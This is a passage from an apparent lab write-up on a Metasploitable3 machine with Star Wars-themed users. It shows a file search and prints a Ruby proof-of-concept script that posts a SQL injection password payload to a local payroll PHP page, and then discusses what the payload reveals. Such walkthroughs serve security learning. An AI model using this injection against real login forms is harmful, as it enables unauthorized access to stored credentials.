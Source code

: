 {% highlight bash %}
leia_organa@metasploitable3-ub1404:~$ sudo find / -iname "*payroll*" 2> /dev/null
/var/lib/mysql-default/payroll
/var/www/html/payroll_app.php
/home/kylo_ren/poc/payroll_app
{% endhighlight %}

A total of three search hits. Even from the naming and location, we can gather a lot of information about these:

1. `/var/lib/mysql-default/payroll`: A folder in for MySQL, most likely contains the database named _payroll_, with one or more tables.
2. `/var/www/html/payroll_app.php`: The website we performed the SQL Injection attack against. Will contain the source code, written in PHP, that powers the _Payroll App_.
3. `/home/kylo_ren/poc/payroll_app`: This one is a little strange. It is a directory in the home folder of the `kylo_ren` user. If the Star Wars movies are anything to go by, this is probably something malicious!

#### Kylo Ren's Ruby Exploit

It would make the most logical sense to start with the PHP source code for the website... However, I am fascinated by what is in `kylo_ren`s home folder. A quick listing of the folder revealed one file called: `poc.rb`, that had the following contents:

{% highlight ruby %}
require 'net/http'

url  = "http://127.0.0.1/payroll_app.php"
uri  = URI(url)
user = 'luke_skywalker'
injection = "password'; select password from users where username='' OR ''='"

puts "Making POST request to #{uri} with the following parameters:"
puts "'user' = #{user}"
puts "'password' = #{injection}"
res = Net::HTTP.post_form(uri, 'user' => user, 'password' => injection, 's' => 'OK')

puts "Response body is #{res.body}"
puts "Done"
{% endhighlight %}

Considering that Kylo is neck-deep in the dark side, it comes as no surprise he has a malicious Ruby script that attacks the _Payroll App_ website. The script automates a similar attack to what we performed earlier. Kylo uses the username `luke_skywalker` and a password that is a SQL injection attack. The actual SQL Injection entered is:

```
password'; select password from users where username='' OR ''='
```
Comparing this to the initial attack we performed early is interesting. It also revealed some more useful information about the SQL Injection vulnerability. Turns out, an attacker can enter any username and password combination on the page and review results. I initially thought that a user would have to authenticate (with username and password) before any information was displayed. Turns out that the web application returns an empty table when the incorrect username and password are entered. Interesting.
